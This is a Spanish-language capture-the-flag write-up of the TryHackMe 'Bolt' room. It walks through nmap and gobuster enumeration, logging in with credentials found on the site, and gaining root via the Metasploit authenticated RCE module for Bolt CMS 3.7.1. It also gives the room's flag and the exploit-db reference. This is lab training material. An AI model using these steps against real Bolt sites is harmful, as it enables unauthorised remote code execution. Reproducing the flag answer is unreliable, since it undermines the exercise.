


# Write-up: 

- **Nombre de la máquina:** `Bolt` 
- **Plataforma:** `TryHackMe` 
- **IP:** `10.10.143.132` 
- **SO:** `Linux` 
- **Dificultad:** `Easy`
- https://tryhackme.com/room/bolt

---

## 1. RECONOCIMIENTO

El objetivo de esta fase es identificar los puntos de entrada y servicios expuestos en la máquina víctima.

#### 1.1. Verificación de Conectividad

Se lanza un `ping` para confirmar que la máquina está activa y obtener el TTL lo que puede darnos una primera pista sobre el sistema operativo.
```
	ping 10.10.143.132
```
Nos devuelve conectividad y un TTL=64 por lo que estamos ante una máquina Linux.


#### 1.2. Escaneo de Puertos

Se realiza un escaneo con **Nmap** para descubrir puertos abiertos, los servicios que corren en ellos y sus versiones.

```
sudo nmap -p- -sV -sC -sS --min-rate 5000 --open -n -Pn 10.10.143.132 -oN port_scan.txt
```

**Puertos Descubiertos:**

| Puerto | Servicio | Versión       | Notas                     |
| ------ | -------- | ------------- | ------------------------- |
| 22     | ssh      | OpenSSH 7.6   | Necesitamos credenciales  |
| 80     | http     | Apache 2.4.29 | Página inicio apache      |
| 8000   | http     | PHP 7.2.32-1  | Más superficie de ataque. |


Normalmente el acceso por el puerto 22 al servicio ssh requiere de credenciales. Ya sea usuario y contraseña o clave rsa. En este caso carecemos de información al respecto así que lo más productivo es explorar el servicio http. 

---

## 2. ENUMERACIÓN

Una vez identificados los servicios, se procede a investigarlos en profundidad en busca de vulnerabilidades o información útil.

### Puerto 80 ( HTTP)

#### Enumeración Manual:

- **Navegación web:** Se visita el sitio en `http://10.10.143.132.
  
    Tenemos  página de inicio de Apache: 

     
- **Análisis del código fuente:** Se revisa el HTML en busca de comentarios, rutas o scripts ocultos.
  
    Tenemos una página del bug arreglado en la última actualización. :

	
- **Archivos comunes:** Se buscan manualmente archivos y directorios comunes:
	- `/robots.txt`-->X
	- `/sitemap.xml`--> X
	- `/login`--> X
	- `/admin`--> X
	- `/panel`--> X
	- `/user`--> X
	- `/panel`--> X
	- `backup`--> X
	- `uploads`--> X
	- `test, etc.`--> X
    
#### Enumeración Automática:

- Lanzamos la herramienta `whatweb` para que nos de información sobre la aplicación web. 
```
whatweb 10.10.143.132
```


Nos nos devuelve nada.


- Lanzamos la herramienta de enumeración `gobuster` para buscar directorios ocultos y extensiones .php,.txt y .html 

```
gobuster dir -u http://10.10.143.132/ -w /urs/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt -x php,txt,html -k
```


**Hallazgos:**

- Nos de vuelve que no hay repuesta ala petición. Este amigo... no es el camino... 


### Puerto 8000 ( HTTP)

#### Enumeración Manual:

- **Navegación web:** Se visita el sitio en `http://10.10.143.132:8000
  
    Tenemos  página de Bolt : 

     
	
	**Encontramos mensajes con posibles credenciales** 
	
	
- **Hallazgos:
	- Username: `bolt`
	- Password: `boltadmin123`
- **Análisis del código fuente:** Se revisa el HTML en busca de comentarios, rutas o scripts ocultos.
  
  No encontramos nada. :

	
- **Archivos comunes:** Se buscan manualmente archivos y directorios comunes:
	- `/robots.txt`-->X
	- `/sitemap.xml`--> X
	- `/login`--> X
	- `/admin`--> X
	- `/panel`--> X
	- `/user`--> X
	- `/panel`--> X
	- `backup`--> X
	- `uploads`--> X
	- `test, etc.`--> X
	- `bolt`--> es importante añadir que es un directorio de login por defecto en los CMS de `BOLT` 
	  https://docs.boltcms.io/5.2/manual/login
- **Hallazgos**
	- Encontramos un panel de login
	   
#### Enumeración Automática:

- Lanzamos la herramienta de enumeración `gobuster` para buscar directorios ocultos y extensiones .php,.txt y .html 

```
gobuster dir -u http://10.10.143.132:8000/ -w /urs/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt -x php,txt,html -k
```


**Hallazgos:**

- En este punto teniendo el panel de login y las credenciales. No son rutas relevantes. 
#### Comprobación de credenciales:

 1. Accedemos con las credenciales encontradas en los mensajes internos:
	 
  
  2. Tenemos acceso
    
	
-  Hallazgos:
   -  Observamos la versión de Bolt en la parte inferior izquierda.
   `Bolt 3.7.1`

#### Comprobación vulnerabilidad (RCE)

1. Abrimos consola:
```
	msfconsole -q
```
2.  Buscamos vulnerabilidad para vulnerabilidades conocidas para esta versión de Bolt ( Authenticated Remote Code Execution).
   
```
	search bolt 3.7.1
```
Pese a que nuestro Bolt es de una versión posterior. Parece no parchear el error y este exploit es funcional. 
	
	   

---

## 3. EXPLOTACIÓN

### 3.1 Acceso inicial:

Configuramos el exploit en base a lo que nos requiere siguiendo estos pasos:

1. `use 0`. ==exploit/unix/webapp/bolt_authenticated_rce==
2. `show options` (falta LHOST, RHOST, USERNAME, PASSWORD )
   
3. `set PASSWORD boltadmin123`
4. `set RHOST 10.10.143.132`
5. `set USERNAME bolt`
6. `run`

	  


De esta forma hemos conseguido establecer comunicación hacía nuestra terminal. 

### Estabilización de la TTY:

Buscamos una shell semi-interactiva. Que ya nos arroja el promt. 

```
script /dev/null -c bash
```


---

## 4. ESCALADA DE PRIVILEGIOS

En esta máquina hemos entrado como usuario `root` por lo que no es necesario elevar privilegios. 

### 4.1. Enumeración Interna

Se realizan comprobaciones básicas.

#### Comprobaciones del sistema:

¿Qué usuario somos?
`whoami`


¿Qué usuario hay en el sistema?
`cd home` y `ls`

 
 

- Hallazgos:
  - Podemos encontrar el archivo flag.txt


---

## 5. CAPTURA DE BANDERAS (FLAGS)

Con acceso privilegiado, se buscan y leen las banderas.

#### Bandera de root (flag.txt)

- **Ubicación:** `/home/flag.txt`
    
- **Contenido:** `THM{wh0_d035nt_l0ve5_b0l7_r1gh7?}`
    

Respuestas en THM:


Todas se han ido resolviendo en el transcurso de la resolución de la máquina salvo el ID del exploit de BOLT que se encuentra en la documentación de exploit.db: 

https://www.exploit-db.com/exploits/48296

